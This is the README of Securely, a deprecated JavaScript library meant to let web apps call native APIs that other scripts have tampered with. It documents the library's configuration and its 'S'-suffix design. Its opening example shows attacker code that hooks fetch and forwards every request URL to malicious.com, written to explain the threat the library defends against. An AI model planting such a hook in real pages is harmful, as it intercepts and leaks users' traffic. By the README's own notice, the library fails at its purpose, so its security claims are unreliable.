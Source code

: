 # ⚠️ DEPRECATION NOTICE ⚠️

Securely project is now deprecated entirely and should not be used at all, as it fails to accomplish its single security purpose due to poor design.
Please avoid using it.

Learn here https://github.com/LavaMoat/snow/pull/36#issue-1458246010 more about the idea behind Securely and why it was decided to drift away from it completely.

# Securely 🔒

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app:

```javascript
// attacker hooks fetch API and hijacks innocent requests:

const originalFetch = fetch;
fetch = function(url) {
  originalFetch('https://malicious.com/hijacked?real_url=' + url);
  return originalFetch(url);
};

// without securely:

fetch('https://example.com/get_all_imgs'); // goes through attacker's hook

// with securely:

securely(_ => fetchS('https://example.com/get_all_imgs')); // avoids attacker's hook by using native fetch API
```

* [Test](https://lavamoat.github.io/securely/demo) `Securely` for yourself with this live demo!
* `Securely` is still experimental ⚠️ - your help is highly appreciated!

## Usage

In order to use Securely you must load the Securely script and better to do so as the first javascript code to be executed within the web app:

```html
<script src="./securely.prod.js"></script>
```

You may let other javascript code load and execute before Securely, but that would mean that such code will be able to break Securely's behaviour and ultimately disable its effect completely.

Once you loaded Securely, you have to declare what native APIs you wish to have access to.
You will be able to use a new exposed API called `SECURE` to do so:

```javascript
const securely = SECURE(window, config);
```

`SECURE` API can also be required as part of a bundle instead of a script tag:

```
yarn add @weizman/securely
```

```javascript
const secure = require('@weizman/securely');
```

* `@window` - the realm you wish to apply securely to (if you wish to secure the realm of your current context, just pass `window`)
* `@config` - an object indicating the native APIs you wish to have access to
* `@returns` - a function that is the only key to enable access to the natives you wished to secure

The simple ones are `objects`:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        
    }
});

// securely use them

const myScript = securely(_ => {
  return document.createElementS('script');
});

securely(_ => {
  fetchS('https://example.com/sensitive_request/');
});
```

But if you wish to secure properties/methods of `prototypes`, you can achieve that as well:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
    
    },
    prototypes: {
        'Array': ['includes', 'push', 'slice'],
    }
});

// securely use them

const result = securely(_ => {
  const arr = ['a', 'b', 'c'];
  if (arr.includesS('b')) {
    return arr.sliceS(2);
  }
});
```

## Securely Technically Explained (What's the `S` suffix for?)

You may have noticed that in order to use your secured natives, not only that you have to do so from within the `securely` callback, but you also have to call your native API with an `S` suffix.

This is because while allowing access to native APIs we wish to maintain the possibility to access the normal state of those APIs within the web app (whether if they were hooked by anyone or not).

Hooking is a common practice that many third party vendors do in order to provide their services, and in many cases in order for the app to work smoothly it needs to go through such hooked APIs.

So in order to not harm the web app ecosystem, we choose to not alter but to append the Securely functionality. 
We do that by adding `S` to the end of the desired native API.

So if for example you wish to call fetch normally and go through any potential hook, you do so the way you're used to:

```javascript
fetch('https://example.com/this_is_just_a_normal_request');
```

But if you want to call fetch and this time make sure to avoid any potential hooks (whether malicious), that's where securely comes in:

```javascript
securely(_ => fetchS('https://example.com/this_request_is_extra_sensitive'));
```

Accessing `S` APIs is disabled outside of the `securely` callback. This is another important security mechanism.
Not only that we want to have access to native APIs, but we want to make sure no other js code in runtime has such access (unless we want it to have that ability, in which case we'll pass the `securely` function on to it).

Native APIs can be used by attackers who managed to execute code within the app maliciously, and we just don't want anyone to have such an ability without specifically authorizing it.

That is why the `S` APIs are not accessible outside of the `securely` callback:

```javascript
console.log(fetchS); // undefined
securely(_ => console.log(fetchS)); // ƒ fetch() { [native code] }
console.log(fetchS); // undefined
```

## Supporters

Funded by [Consensys 💙](https://github.com/consensys)

Maintained and developed by [MetaMask 🦊](https://github.com/MetaMask)

Invented and developed by [Gal Weizman 👋🏻](https://weizman.github.io/)
